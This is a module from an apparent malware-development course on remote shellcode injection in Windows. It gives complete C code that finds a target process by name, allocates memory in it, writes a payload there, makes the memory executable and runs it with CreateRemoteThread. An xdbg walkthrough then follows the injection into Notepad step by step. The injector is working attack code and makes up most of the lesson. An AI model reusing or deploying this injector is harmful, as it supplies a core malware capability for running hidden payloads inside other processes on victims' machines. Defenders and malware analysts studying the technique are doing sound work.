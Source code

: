 # 3.7 Process Injection - Shellcode Injection

### Introduction

This module will be similar to the previous DLL Injection module with minor changes. Shellcode process injection will use almost the same Windows APIs to perform the task:

- [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) - Memory allocation.
    
- [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) - Write the payload to the remote process.
    
- [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) - Modifying memory protection.
    
- [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) - Payload execution via a new thread.
    

### Enumerating Processes

Similarly to the previous module, process injection starts by enumerating the processes. The process enumeration code snippet shown below was already explained in the previous module.

```c
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {

	// According to the documentation:
	// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
	// If dwSize is not initialized, Process32First fails.
	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32) 
	};

	HANDLE hSnapShot = NULL;

	// Takes a snapshot of the currently running processes 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE){
		printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD	dwSize = lstrlenW(Proc.szExeFile);
			DWORD   i = 0;

			RtlSecureZeroMemory(LowerName, MAX_PATH * 2);

			// Converting each charachter in Proc.szExeFile to a lower case character
			// and saving it in LowerName
			if (dwSize < MAX_PATH * 2) {

				for (; i < dwSize; i++)
					LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);

				LowerName[i++] = '\0';
			}
		}

		// If the lowercase'd process name matches the process we're looking for
		if (wcscmp(LowerName, szProcessName) == 0) {
			// Save the PID
			*dwProcessId = Proc.th32ProcessID;
			// Open a handle to the process
			*hProcess    = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());

			break;
		}

	// Retrieves information about the next process recorded the snapshot.
	// While a process still remains in the snapshot, continue looping
	} while (Process32Next(hSnapShot, &Proc));

	// Cleanup
	_EndOfFunction:
		if (hSnapShot != NULL)
			CloseHandle(hSnapShot);
		if (*dwProcessId == NULL || *hProcess == NULL)
			return FALSE;
		return TRUE;
	}
```

### Shellcode Injection

To perform shellcode injection the `InjectShellcodeToRemoteProcess` function will be used. The function takes 3 parameters:

1. `hProcess` - A handle to the opened remote process.
    
2. `pShellcode` - The deobfuscated shellcode's base address and size. The shellcode must be in plaintext before being injected because it cannot be edited once it's in the remote process.
    
3. `sSizeOfShellcode` - The size of the shellcode.
    

#### Shellcode Injection - Code Snippet

```c
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

	PVOID	pShellcodeAddress              = NULL;

	SIZE_T	sNumberOfBytesWritten          = NULL;
	DWORD	dwOldProtection                = NULL;


	// Allocate memory in the remote process of size sSizeOfShellcode 
	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pShellcodeAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	// Write the shellcode in the allocated memory
	if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);

	memset(pShellcode, '\0', sSizeOfShellcode);

	// Make the memory region executable
	if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	
	printf("[#] Press <Enter> To Run ... ");
	getchar();
	printf("[i] Executing Payload ... ");
	// Launch the shellcode in a new thread
	if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[+] DONE !\n");

	return TRUE;
}
```

### Deallocating Remote Memory

[VirtualFreeEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfreeex) is a WinAPI that is used to deallocate previously allocated memory in a remote process. This function should only be called after the payload has fully finished execution otherwise it might free the payload's content and crash the process.

```c
BOOL VirtualFreeEx(
  [in] HANDLE hProcess,
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);
```

`VirtualFreeEx` takes the same parameter as the `VirtualFree` WinAPI with the only difference being that `VirtualFreeEx` takes an additional parameter (`hProcess`) that specifies the target process where the memory region resides.

### Debugging

In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.

This walkthrough injects shellcode into a Notepad process therefore start by opening up Notepad and attaching the x64 xdbg debugger to it. The image below shows the process has PID `22992`.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-1.png)

  

Run `RemoteShellcodeInjection.exe` providing notepad.exe as an argument. The binary will start by searching for the PID of Notepad which should be the same PID shown in the xdbg debugger, which in this case is `22992`.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-2.png)

  

Next, the binary will decrypt the payload. Notice that attempting to access the memory address will result in an error. The reason this happens is because the debugger is attached to the `notepad.exe` process whereas the deobfuscation process occurs in the local process which is `RemoteShellcodeInjection.exe`.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-3.png)

  

To view the deobfuscated payload, a new instance of xdbg must be opened and attached to the `RemoteShellcodeInjection.exe` process.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-4.png)

  

Back to the Notepad debugger instance, the next step is memory allocation. The base address where the payload will be written is `0x0000021700230000`. The debugger shows that the allocated memory region was zeroed out.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-5.png)

  

The deobfuscated payload is then written to the allocated memory region in the remote process.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-6.png)

  

Analyzing the local process, the payload was successfully zeroed out since it is not required anymore.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-7.png)

  

Finally, the payload is executed in the remote process inside of a new thread.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-8.png)